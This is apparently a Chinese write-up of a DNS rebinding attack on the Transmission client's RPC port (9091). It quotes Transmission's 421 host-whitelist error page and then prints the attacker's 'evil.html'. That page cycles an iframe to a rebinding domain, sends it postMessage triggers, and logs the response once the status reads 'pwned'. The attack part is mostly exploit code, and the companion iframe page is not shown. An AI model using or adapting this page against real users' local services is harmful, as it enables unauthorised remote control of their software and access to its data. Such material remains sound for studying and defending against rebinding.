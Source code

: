 如果判断host不通过会返回状态码`421 Misdirected Request`,返回内容中对DNS rebinding 攻击进行了描述

    

	<h1>421: Misdirected Request</h1><p>Transmission received your request, but the hostname was unrecognized.</p><p>To fix this, choose one of the following options:<ul><li>Enable password authentication, then any hostname is allowed.</li><li>Add the hostname you want to use to the whitelist in settings.</li></ul></p><p>If you're editing settings.json, see the 'rpc-host-whitelist' and 'rpc-host-whitelist-enabled' entries.</p><p>This requirement has been added to help prevent <a href="https://en.wikipedia.org/wiki/DNS_rebinding">DNS Rebinding</aattacks.</p>


## 代码

 `transmission.domain/evil.html`代码

	<html>
	<title>
	It's evil
	</title>
	<head>
	</head>
	<body>
	Hi It' evil
	<input id=hosturl value= "http://rebind.domain:9091/iframe_A.html" size=64>
	
	<iframe id=iframe_A src="about:blank" height=128 width=50%></iframe>
	
	<script>
	
	function post_iframe_A(){	
		document.getElementById("iframe_A").contentWindow.postMessage("start", "*");
	}
	
	function reload_iframe_A(){
		 document.getElementById("iframe_A").src = document.getElementById("hosturl").value+ "?rnd=" + Math.random();
	}
	
	
	window.addEventListener("message", function( event ) {
		console.log('recieve_from_iframe_A;  ' + event.data);
		if(event.data.status == "stop"){
			clearInterval(timer_reload_iframe_A);
		}
		
		if(event.data.status == "pwned"){
			console.log(event.data.response);
			clearInterval(timer_post_iframe_A);
		}
	});
	 
	timer_reload_iframe_A = setInterval(reload_iframe_A, 10000);
	timer_post_iframe_A = setInterval(post_iframe_A, 5000);	
	</script>
	
	</body>
	</html>
